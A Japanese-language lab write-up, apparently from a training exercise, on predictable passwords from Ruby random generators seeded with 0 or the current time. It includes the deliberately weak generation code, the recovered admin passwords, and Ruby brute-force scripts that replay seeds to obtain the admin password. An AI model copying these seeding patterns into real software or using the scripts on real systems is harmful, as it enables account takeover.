

開発者がどのように乱数や文字列を生成するかによって、生成される値は多かれ少なかれランダムになり得ます。最も大きな間違いは、定数や現在時刻を使って手動で乱数生成器を設定することです。  
このセクションでは、ランダムが常にランダムではないことを納得させるいくつかの例を見ていきます。   
# <span style="color: blue;">Example 1</span>
この最初の例は、ランダムが本当のランダムでないことを示すためにここにあるだけです。この問題は、シード付きランダムジェネレータを使用したことに起因しています。開発者は乱数生成器のシードとして値0を使いました。  
このコードでは、開発者がシードを0に設定したため、常に同じパスワードが生成されることがわかります。  
```Ruby
s = Random.new(0)
pass = 6.times.map { ('a'..'z').to_a[s.rand(('a'..'z').to_a.size)]}.join
User.create(:username => 'admin', :password => Digest::MD5.hexdigest(SEED+pass+SEED))
pass = 6.times.map { ('a'..'z').to_a[s.rand(('a'..'z').to_a.size)]}.join
User.create(:username => 'hacker', :password => Digest::MD5.hexdigest(SEED+pass+SEED))
```

   

    
Passwordに`mpvadd`を入力   
 
# <span style="color: blue;">Example 2</span>
この例では、ランダムジェネレータのシードがうまくいっていない別の例を示しています。乱数生成器には現在時刻がシードされています。   
管理者パスワードに到達するためには、シードをブルートフォースする必要があります。そのためには、現在の時刻から始めて、パスワードが得られるまで、値を生成するのに使われたアルゴリズムを再生しながら、時刻を減らしていくことができます。   
パスワードが得られたら、どのシードが使われたか（より正確にはランダムジェネレータが初期化された時間）がわかります。そして、管理者パスワードを取得することができます。    
```Ruby
s = Random.new(Time.now.to_i)
pass = 6.times.map { ('a'..'z').to_a[s.rand(('a'..'z').to_a.size)]}.join
User.create(:username => 'admin', :password => Digest::MD5.hexdigest(SEED+pass+SEED))
pass = 6.times.map { ('a'..'z').to_a[s.rand(('a'..'z').to_a.size)]}.join
User.create(:username => 'hacker', :password => Digest::MD5.hexdigest(SEED+pass+SEED))
```
今回のシードは、現在のタイムスタンプです。パスワードを取得するためには、生成されたパスワードを計算するスクリプトを作成する必要があります。   
```Ruby
timestamp = (Time.now.to_f).to_i
seed = Random.new(timestamp)
pass_admin = 6.times.map { ('a'..'z').to_a[seed.rand(('a'..'z').to_a.size)]}.join
pass_hacker = 6.times.map { ('a'..'z').to_a[seed.rand(('a'..'z').to_a.size)]}.join

while pass_hacker !="mgguzb" do #contraseña del usuario 'hacker'
 timestamp = timestamp - 1
 seed = Random.new(timestamp)
 pass_admin = 6.times.map { ('a'..'z').to_a[seed.rand(('a'..'z').to_a.size)]}.join
 pass_hacker = 6.times.map { ('a'..'z').to_a[seed.rand(('a'..'z').to_a.size)]}.join
end

puts "Password de admin: "
puts pass_admin
```
   
    
    

# <span style="color: blue;">Example 3</span>
```ruby
s = Random.new(0)
pass = (6+s.rand(5)).times.map { ('a'..'z').to_a[s.rand(('a'..'z').to_a.size)]}.join
User.create(:username => 'admin', :password => Digest::MD5.hexdigest(SEED+pass+SEED))
pass = (6+s.rand(5)).times.map { ('a'..'z').to_a[s.rand(('a'..'z').to_a.size)]}.join
User.create(:username => 'hacker', :password => Digest::MD5.hexdigest(SEED+pass+SEED))
```
   
Passwordに`pvaddhjtvs`を入力   
   
  

# <span style="color: blue;">Example 4</span>
```ruby
s = Random.new(0)
rand(1000).times {s.rand(5)}
pass = 6.times.map { ('a'..'z').to_a[s.rand(('a'..'z').to_a.size)]}.join
User.create(:username => 'admin', :password => Digest::MD5.hexdigest(SEED+pass+SEED))
pass = 6.times.map { ('a'..'z').to_a[s.rand(('a'..'z').to_a.size)]}.join
User.create(:username => 'hacker', :password => Digest::MD5.hexdigest(SEED+pass+SEED))
```
この状況では、乱数発生器が以前に何回使われたかは分かりませんが、ハッカーアカウントで同じパスワードを見つけるまでブルートフォースでパスワードを入力し、正しい値で管理者コードを実行することができます。  
```ruby
a = 1000
s = Random.new(0)
a.times {s.rand(5)}
passad = 6.times.map { ('a'..'z').to_a[s.rand(('a'..'z').to_a.size)]}.join
passhk = 6.times.map { ('a'..'z').to_a[s.rand(('a'..'z').to_a.size)]}.join

puts "insert the password for the hacker login:"
pass_hk = gets.chomp

while passhk != pass_hk do #here you should place the password for the hacker acount
a = a - 1
s = Random.new(0)
a.times {s.rand(5)}
passad = 6.times.map { ('a'..'z').to_a[s.rand(('a'..'z').to_a.size)]}.join
passhk = 6.times.map { ('a'..'z').to_a[s.rand(('a'..'z').to_a.size)]}.join
#puts a
end
puts "admin pass is :"
puts passad
puts "done :-)"
```
   
   
